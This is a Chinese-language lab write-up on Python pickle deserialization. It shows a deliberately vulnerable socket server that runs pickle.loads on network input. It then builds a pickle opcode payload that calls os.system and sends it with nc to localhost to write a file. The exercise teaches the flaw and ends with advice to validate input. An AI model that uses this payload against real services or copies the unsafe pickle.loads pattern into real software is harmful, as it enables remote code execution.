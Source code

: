# <center>Linux下漏洞分析入门</center>

## 实验概述

### 【目的】
运行level17.py建立服务端，通过访问实现远程任意代码执行。
### 【环境】
Linux
### 【工具】

### 【原理】
序列化在计算机科学中通常有以下定义:

对同步控制而言，表示强制在同一时间内进行单一存取。
在数据储存与传送的部分是指将一个对象存储至一个储存媒介，例如档案或是记亿体缓冲等，或者透过网络传送资料时进行编码的过程，可以是字节或是XML等格式。而字节的或XML编码格式可以还原完全相等的对象。这程序被应用在不同应用程序之间传送对象，以及服务器将对象储存到档案或数据库。相反的过程又称为反序列化。
## 实验步骤

### 【步骤】
先查看服务端的python代码
```
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```
该python脚本在端口10007上进行侦听，与服务器类似，等待连接，接受并读取我们提供的字符串，并且使用pickle.loads()来处理。
pickle 模块实现了一种算法，可以将任意一个 Python 对象转化为一系列的字节，也可以将这些字节重构为一个有相同特征的新对象。
由于字节可以被传输或者存储，因此 pickle 事实上实现了传递或者保存 Python 对象的功能。

这里的危险函数就是
```
obj = pickle.loads(line)
```
用户的输入不加检查的就被解释，我们可以利用pickle的操作码来构造shellcode。通过阅读pickle源码，可以了解到操作码如何构造。

c：引入模块
(s'<string>'：给函数提供参数
tR. :收尾

那么可以进行如下构造
```
$ cat lx
cos
system
(S'<要发送的命令>'
tR.
```

尝试连接并发送
```
$ cat lx
cos
system
(S'echo goiit > test'
tR.
$ cat lx | nc 127.0.0.1 10007
Accepted connection from 127.0.0.1:38766
^C
$ cat test
goiit

```

### 【总结】

本次实验了解了pickle的反序列化漏洞。
对于预防这种漏洞，一定要对用户的输入数据严格检查，不要信任任何用户输入。